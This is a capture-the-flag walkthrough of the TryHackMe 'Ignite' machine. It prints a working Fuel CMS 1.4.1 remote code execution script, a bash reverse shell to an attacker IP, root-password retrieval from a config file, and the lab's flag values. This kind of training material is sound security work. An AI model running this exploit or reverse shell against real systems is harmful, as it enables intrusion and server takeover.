 # Ignite

![logo](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/bd001816-10a2-47d1-a383-7be389a99ca8)

## Enumeration

We use `nmap` to scan the target :

```bash
nmap -sT -sV 10.10.128.117
```

![nmap](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/e5d5b0ce-157d-4e87-adc3-43d5247f578d)


opening the browser on machine IP will show some information :

![firstPage](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/c8c00347-73c8-4ef9-926d-d29fa78eef2b)

with some extra information showing the location of config files :

![configFiles](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/5686dbcd-c9f4-4a27-8951-666f078f27d1)

as it is obvious the username and password for logging in is `admin:admin`

in the CMS itself there is no way to upload a file (at least i tried verious extensions) but none of them worked.

i decided to search for `fuel cms` exploit wtih `searchsploit` :

```bash
searchsploit fuel cms
```

![searchsploit](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/e6947bc4-4829-446a-9b3e-11427b29f5da)

it shows that version `1.4.1` has remote code execution vulnerability, so download the exploit `47138.py` from exploit-db.com

![exdb](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/8eb1c17c-2b47-45d9-9b31-21f70afae927)

from the original code you need to change afew things :

![code](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/83f8a4b2-8d98-441c-bf2d-f91eab06ca6f)

```md
1.Change the url to machine IP address
2.Comment out the proxy line
3.Remove the proxies=proxy parameter
```

the final code should be like this :

```python
import requests
import urllib

url = "http://10.10.128.117:80"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = raw_input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
        #proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print r.text[0:dup]
```

## Getting Shell

Now execute it with `python2`, it gives you a `cmd` that you can run command with it, for example `ls` :

![cmd](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/38c85ca2-99ba-4550-8d9e-c27429a5a6d3)

you just need to upload your reverse shell to the target so i used bash revshell and saved it to a file call `r.sh` :

```bash
bash -i >& /dev/tcp/10.6.74.10/4444 0>&1
```

use python to make the file downloadable for the target :

```python
python3 -m http.server 8080
```

and get the file from the victim :

![wget](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/2edb533f-3dab-4211-bc39-eaa5971276f1)

after downloading the file on the victim now its time to execute it, first listen on your desired port with `nc` like `nc -nvlp 4444` :

![bash](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/08309f4c-f1bf-494c-ae17-c607353db37e)

navigate to `/home/www-data` and cat the `flag.txt` file, this is your first flag :

```bash
cat flag.txt
6470e394cbf6dab6a91682cc8585059b
```

## Privilege Escalation

You can do multiple things here for example uploading `Linpeas.sh` on the target but if you remember from the first page of the site where

it showed multiple configuration files in `fuel/application/config` directory, let's explore this directory to find anything interesting :

![dir](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/e3b999aa-57d2-482f-8af1-e9d13a3ac709)

cat the content of `database.php`

![database](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/a2c3f076-3b7f-4195-b1d0-c11800813c11)


yes, the root password is here, we just need to switch to `root` account.

but if we use `su root` we get and error saying `su: must be run from a terminal`

so we first need to escalate the terminal, to do this use the code below :

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
now use `su root` and provide the password.

cat the content of `/root/root.txt` :

```bash
cat /root/root.txt
b9bbcb33e11b80be759c4e844862482d
```

this is the end of Ignite challenge :)
